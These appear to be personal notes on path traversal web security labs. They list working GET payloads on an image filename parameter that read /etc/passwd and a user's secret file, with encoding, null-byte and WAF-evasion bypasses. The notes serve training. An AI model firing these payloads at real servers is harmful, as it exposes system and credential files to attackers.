 ____

Just scan it with Burp. It will make all the work. 

![[Pasted image 20240904071816.png]]


If you can get /etc/passwd, but cannot get /home/carlos/secret (maybe WAF is blocking the word **secret**), just URL-Encode the whole payload (even with /home/carlos/secret) like this:

```bash
/image?filename=%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%36%38%25%36%66%25%36%64%25%36%35%25%32%66%25%36%33%25%36%31%25%37%32%25%36%63%25%36%66%25%37%33%25%32%66%25%37%33%25%36%35%25%36%33%25%37%32%25%36%35%25%37%34
```

```bash
/image?filename=/../../../../../../../../../../../../home/carlos/secret
```

# File path traversal, simple case

```bash
GET /image?filename=../../../etc/passwd
```

# File path traversal, traversal sequences blocked with absolute path bypass

```bash
GET /image?filename=%2fetc%2fpasswd
```

# File path traversal, traversal sequences stripped non-recursively

```bash
GET /image?filename=...%2f.%2f...%2f.%2f...%2f.%2f...%2f.%2f...%2f.%2f...%2f.%2f...%2f.%2f...%2f.%2f...%2f.%2f...%2f.%2fetc%2fpasswd
```

# File path traversal, traversal sequences stripped with superfluous URL-decode

```bash
GET /image?filename=%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
```

# File path traversal, validation of start of path

```bash
GET /image?filename=/var/www/images/../../../etc/passwd
```

# File path traversal, validation of file extension with null byte bypass

```bash
GET /image?filename=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd%0056.jpg
```



